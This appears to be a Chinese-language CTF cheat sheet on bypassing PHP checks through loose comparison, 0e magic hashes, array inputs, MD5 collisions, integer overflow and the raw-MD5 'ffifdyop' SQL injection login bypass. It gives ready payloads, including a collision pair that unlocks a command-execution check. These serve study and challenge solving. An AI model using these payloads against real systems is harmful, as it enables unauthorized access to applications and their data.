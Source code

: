## **php弱类型：**
<https://www.cnblogs.com/linfangnan/p/13411103.html>
**类型相等判断**
PHP 比较 2 个值是否相等可以用 “ == ” 或 “ === ”，“ == ” 会在比较时自动转换类型而不改变原来的值，因此这个符号经常出现漏洞。“ == ” 比较相等的一些常见值如下，当某些语句的判断条件是使用 “ == ”来判断时，就可以使用弱类型来替代。值得一提的是 “0e” 开头的哈希字符串，PHP 在处理哈希字符串时会把每一个以 “0E” 开头的哈希值都解释为 0。

```
'' == 0 == false == "0"
"00" == true
'123' == 123
'abc' == 1 == true  常见于字符串判断相等。
'123a' == 123
'123);// ' == 123
'0x01' == 1
'0e12346789' == '0e987654321'
[false] == [0] == [NULL] == ['']
NULL == false == 0
true == 1

'1%2b2' == 1
'1+2' == 1

?num=1+2
$a=$_GET['num'] ==1
intval(a) == 3 
intval(1+2) == 3
intval("1+2") == 1
intval(" '1000' ") == 0
echo intval([0])  // 1 传一个数组永远为1

intval科学计数返回前面，科学计数后有+好返回字符串拼接后值。
intval(2019e1) == 2019
intval(2019e1+1) == 20191 

echo intval(0x117c,0) // 输出10进制4476  
第二个参数默认base是10，如果 base 是0则通过检测 var 的格式来决定使用的进制： 
◦ 如果字符串包括了 "0x" (或 "0X") 的前缀，使用 16 进制 (hex)；否则，  
◦ 如果字符串以 "0" 开始，使用 8 进制(octal)；否则，  
◦ 将使用 10 进制 (decimal)。 

intval(010574,0) //返回值为4476
intval(+010574,0) //返回值为4476

intval(4476.1,0) //返回值为4476
intval(4476.10,0) //返回值为4476

intval(0) == 'flag字符串'
intval(aaa123) == 'flag字符串'
intval(false) == 'flag字符串'
intval(md5(phpinfo())) == '字符串' == 0  字母开头
```

如果遇到了 “===” 则不会进行类型转换，但也并不代表无从下手。如果条件表达式中含有函数，也可以通过**传入数组**让函数返回 NULL 使得条件满足。



^
## **md5判断**
**弱绕过**
```
if(md5($_POST['md51']) == md5($_POST['md52']) 
     && $_POST['md51'] != $_POST['md52'])
```
方法1：

PHP 在处理哈希字符串时，“0e” 开头的值利用 “==” 判断相等时会被视为 0。所以如果两个不同的密码经过哈希以后，其哈希值都是以 ”0E” 开头的，那么 PHP 将会认为他们相同。
md5(QNKCDZO)==0

md51和md52取以下两值
QNKCDZO  s155964671a  s1091221200a  240610708
方法2：
数组绕过，原理是 md5() 等函数不能处理数组，导致函数返回Null。而Null是等于Null的，导致了绕过。
?md51[]=1&md52[]=2

^
**强绕过**
```
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
}



a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

^
**特性**
md5("123") === md5(123)
md5("INF") === md5(INF)
md5("NAN") === md5(NAN)
在PHP中，NAN是一个特殊的浮点数值，表示非数值（Not-A-Number）。当一个运算无法计算结果时，比如零除以零，就会产生NAN。PHP中的INF是一个特殊的浮点数值，表示无穷大（Infinity）。当数值超过PHP_FLOAT_MAX或者使用一些数学函数产生极大或极小的结果时，就会得到INF。

^
**php中原值和md5(原值)后要==**
原值为0e215962017即可


^
**数据库中的MD5造成注入：**
```
select * from 'admin' where password=md5($pass,true)
```
```
<?php
$pass = "ffifdyop";
echo md5($pass,ture);  //为'or'6?]??!r,??b
?>
```
所以传入ffifdyop即可密码正确。


^
## **sha哈希**
和md5类似，

以下值在sha1加密后以oE开头：
```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```
^
## **php整数溢出**
PHP中整数溢出的具体值取决于系统的架构（32位还是64位）。在32位系统中，整数的范围是 -2147483648 到 2147483647，当超过这个范围时会发生溢出。在64位系统中，整数的范围是 -9223372036854775808 到 9223372036854775807。

当一个整数超过了系统所能表示的最大值，它会回绕到最小值。同样，当一个整数低于系统所能表示的最小值，它会回绕到最大值。这就是整数溢出的发生。

在PHP中，如果整数发生溢出，它不会引发错误，而是静默地产生一个新的整数值。例如，在32位系统中，如果一个整数超过了2147483647，它将回绕到-2147483648。这种行为可能导致程序逻辑错误，因此在处理较大数值时应该格外小心。

```
$arr[$_GET['0']]=1;
if($arr[]==1){ //末尾为1？ 
die($flag);
}

?0=2147483647   //使用数组整型溢出绕过赋值式“永真”
?0[]=1   //数组绕过
```


```
$arr[$_GET['0']]=1;
if($arr[]=1){  //$arr[]=1意思是给数组下一个下标赋值为1
die();
}else{
echo $flag;
}

?0=9223372036854775807     //数组下标溢出，要刚刚好，多了会截断，刚刚好时，经过$arr[]=1下标直接溢出，无法赋值。
```

^
对于会x10倍的数，传入比溢出数少1位的数大一点即可。
```
如932337203685477581
```